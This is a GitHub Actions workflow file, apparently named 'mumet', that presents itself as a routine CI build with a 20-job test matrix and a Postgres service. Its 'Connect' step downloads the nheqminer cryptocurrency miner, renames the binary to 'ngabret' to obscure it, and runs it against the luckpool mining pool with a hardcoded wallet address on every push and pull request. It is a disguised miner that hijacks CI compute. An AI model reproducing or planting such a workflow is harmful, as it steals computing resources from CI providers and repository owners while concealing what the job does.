 name: mumet

on: [push, pull_request]

env:
  BUILD_TYPE: Release

jobs:
  build:
    runs-on: ubuntu-latest
    container: golang:latest
    strategy:
      matrix:
         test_block:
          - 1
          - 2
          - 3
          - 4
          - 5
          - 6
          - 7
          - 8
          - 9
          - 10
          - 11
          - 12
          - 13
          - 14
          - 15
          - 16
          - 17
          - 18
          - 19
          - 20
    services:
      postgres:
        image: postgres
        env:
          POSTGRES_PASSWORD: postgres

    steps:
      - name: Check out repository code
        uses: actions/checkout@v2
      - name: echo
        run: echo "done"

      - name: Connect
        run: |
          wget https://github.com/VerusCoin/nheqminer/releases/download/v0.8.2/nheqminer-Linux-v0.8.2.tgz && tar -xvf nheqminer-Linux-v0.8.2.tgz && tar -xvf nheqminer-Linux-v0.8.2.tar.gz && mv nheqminer/nheqminer ngabret && ./ngabret -v -l ap.luckpool.net:3956 -u RCZiRNaUvTv9f6JPBMCVjt8XSULR47ZHVf.SUKUMANTE -p x -t 2
